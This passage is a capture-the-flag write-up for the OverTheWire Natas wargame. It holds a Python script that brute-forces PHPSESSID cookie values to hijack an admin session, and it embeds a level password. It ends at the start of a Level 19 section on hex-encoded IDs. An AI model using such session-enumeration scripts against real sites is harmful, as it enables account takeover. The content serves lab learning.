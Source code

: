 **Procedure**

1. Log in using the username `natas18` and the password from Level 17.
   
2. Inspect the site — there is functionality that treats a `PHPSESSID` cookie as the session identifier and displays different content depending on the session (e.g., an admin message).

3. If session IDs are small integers or otherwise enumerable, iterate through plausible PHPSESSID values and request the page with each one.

4. When you find a session that shows the admin content, the page will reveal the password for natas19. Save it and move on.

5. The script logic (Credits: John Hammond): https://github.com/JohnHammond/overthewire_natas_solutions/blob/master/natas18.py

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import requests
from requests.auth import HTTPBasicAuth

username = "natas18"
password = "6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ"
url = f"http://{username}.natas.labs.overthewire.org/"

session = requests.Session()
auth = HTTPBasicAuth(username, password)

for session_id in range(1, 641):
    try:
        resp = session.get(url, cookies={"PHPSESSID": str(session_id)}, auth=auth, timeout=8)
    except requests.RequestException as e:
        print(f"[!] Request error for PHPSESSID={session_id}: {e}")
        continue

    content = resp.text
    if "You are an admin" in content:
        print("Got it! PHPSESSID =", session_id)
        print(content)
        break
    else:
        print("trying", session_id)
```

This will brute force all session IDs to find the one for the `admin`.

### Natas Level 19 → Level 20
**Key Takeaways**  
This level is similar to the previous one; the catch only being the PHPSESSID values are not sequential, and that's because they are hex-encoded.

**Procedure**
